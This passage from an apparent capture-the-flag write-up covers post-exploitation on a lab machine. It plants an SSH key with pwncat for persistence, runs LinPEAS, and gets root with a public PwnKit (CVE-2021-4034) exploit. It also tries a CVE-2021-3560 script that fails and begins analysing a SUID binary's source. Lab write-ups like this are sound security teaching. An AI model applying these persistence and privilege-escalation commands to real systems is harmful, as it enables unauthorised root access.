 Then, we can get persistance with `pwncat` by running `run implant.authorized_key key=/home/kali/.ssh/id_rsa`. Now, we should be able to reconnect with `pwncat-cs dasith@10.10.11.120 --identity /home/kali/.ssh/id_rsa`, but this doesn't work. I set the permissions of the `.ssh` folder to be what they should be with `chmod 700 .ssh && chmod 600 .ssh/authorized_keys`, which fixed the issue.

Upload LinPEAS with `upload linpeas.sh` then run with `bash linpeas.sh`.

LinPEAS immediately tells us that the version of `sudo` installed is vulnerable to `CVE-2021-4034` and `CVE-2021-3560`. For more information about these exploits see my [Paper](../Paper/README.md) and [Horizontall](../Horizontall/README.md) writeups. Let's try `CVE-2021-4034`. `CVE-2021-4034` is a [very recent exploit](https://access.redhat.com/security/cve/CVE-2021-4034) ([disclosed to public on January 25th, 2022](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)). Downloading [berdav/CVE-2021-4034](https://github.com/berdav/CVE-2021-4034) as a ZIP file, copying the file over, unzipping it, running `make` in the directory, and then executing `./cve-2021-4034` gets us a root shell.

We can now run `cat /root/root.txt` to get the root flag. However, `CVE-2021-4034` was probably not the intended solution since this box was published before that exploit was found.

For fun, let's see if `CVE-2021-3560` would also work: The [secnigma/CVE-2021-3560-Polkit-Privilege-Esclation](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation) repo seems to work the best at the time of writing. [Download the script](https://raw.githubusercontent.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/main/poc.sh), upload it to the target machine, and then run it like so: `./poc.sh -u=john -p=john`. This fails with the error `Accounts service and Gnome-Control-Center NOT found!!`, so it looks like `CVE-2021-3560` won't work.

## Privilege Escalation

Now, on to the expected exploit. Looking over the LinPEAS output, the `SUID` section shows the following:

```
-rwsr-xr-x 1 root root 18K Oct  7 10:03 /opt/count (Unknown SUID binary)
```

`/opt/count` is a SUID binary that is not normal on linux machines. This is almost certainly our privilege escalation vector.

If we investigated `/opt` we find a `code.c` file with the source code to the `count` `SUID` binary:

```c++
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <dirent.h>
#include <sys/prctl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <linux/limits.h>

void dircount(const char *path, char *summary)
{
    DIR *dir;
    char fullpath[PATH_MAX];
    struct dirent *ent;
    struct stat fstat;

    int tot = 0, regular_files = 0, directories = 0, symlinks = 0;

    if((dir = opendir(path)) == NULL)
    {
        printf("\nUnable to open directory.\n");
        exit(EXIT_FAILURE);
    }
    while ((ent = readdir(dir)) != NULL)
```